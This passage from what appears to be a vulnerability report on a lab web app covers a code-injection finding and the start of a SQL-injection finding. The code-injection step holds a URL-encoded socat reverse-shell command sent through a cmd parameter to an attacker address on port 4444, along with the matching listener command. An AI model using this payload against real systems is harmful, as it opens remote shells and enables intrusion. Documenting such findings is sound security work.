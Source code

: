- **Step 3** obtaining a full interactive shell (socat is installed)

```
GET /test.php?cmd=%73%6f%63%61%74%20%65%78%65%63%3a%27%62%61%73%68%20%2d%6c%69%27%2c%70%74%79%2c%73%74%64%65%72%72%2c%73%65%74%73%69%64%2c%73%69%67%69%6e%74%2c%73%61%6e%65%20%74%63%70%3a%31%37%32%2e%31%37%2e%30%2e%31%3a%34%34%34%34 HTTP/1.1
Host: 172.17.0.2
sec-ch-ua: "Not.A/Brand";v="99", "Chromium";v="136"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=5978669809acc90c93484a9c4c9258db
Connection: keep-alive

```

**Exploiter runs** 

```socat file:`tty`,raw,echo=0 tcp-listen:4444```

Result

`whoami` -> `www-data`
###### References:
[https://www.owasp.org/index.php/Code_Injection](https://www.owasp.org/index.php/Code_Injection)

[https://en.wikipedia.org/wiki/Arbitrary_code_execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution)


-------------


##### 2. SQL Injection
###### Severity:
High
###### Description:
SQL Injection is an attack technique used to exploit applications that construct SQL statements from user-supplied input. When successful, the attacker is able to change the logic of SQL statements executed against the database.

Structured Query Language (SQL) is a specialized programming language for sending queries to databases. The SQL programming language is both an ANSI and an ISO standard, though many database products supporting SQL do so with proprietary extensions to the standard language. Applications often use user-supplied data to create SQL statements. If an application fails to properly construct SQL statements it is possible for an attacker to alter the statement structure and execute unplanned and potentially hostile commands. When such commands are executed, they do so under the context of the user specified by the application executing the statement. This capability allows attackers to gain control of all database resources accessible by that user, up to and including the ability to execute commands on the hosting system.
###### PoC:
#### Request

```
POST /login.php HTTP/1.1
Host: 172.17.0.2